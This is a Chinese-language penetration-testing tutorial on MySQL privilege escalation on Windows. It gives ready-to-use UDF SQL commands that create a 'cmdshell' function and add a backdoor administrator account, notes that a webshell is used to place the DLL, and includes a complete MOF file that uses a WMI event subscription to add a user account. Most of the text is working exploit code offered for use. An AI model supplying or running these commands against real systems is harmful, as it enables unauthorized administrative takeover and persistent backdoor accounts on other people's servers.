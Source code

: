 # 十七、提权

## MySQL两种提权方式

    udf提权,mof提权

    MySQL_UDF提取

    要求: 1.目标系统是Windows(Win2000,XP,Win2003)；2.拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数 3.有root账号密码 导出udf: MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib\plugin文件夹下才能创建自定义函数 可以再mysql里输入select @@basedirshow variables like '%plugins%' 寻找mysql安装路径 提权:

    使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname '导出的DLL路径'；

      <pre>`create function cmdshell returns string soname 'udf.dll'
    select cmdshell('net user arsch arsch /add');
    select cmdshell('net localgroup administrators arsch /add');

    drop function cmdshell;
    `</pre>

    该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

    MySQL mof提权

      <pre>`#pragma namespace("\\\\.\\root\\subscription")

    instance of __EventFilter as $EventFilter
    {
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
    };

    instance of ActiveScriptEventConsumer as $Consumer
    {
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
    };

    instance of __FilterToConsumerBinding
    {
    Consumer   = $Consumer;
    Filter = $EventFilter;
    };
    `</pre>

    其中的第18行的命令，上传前请自己更改。
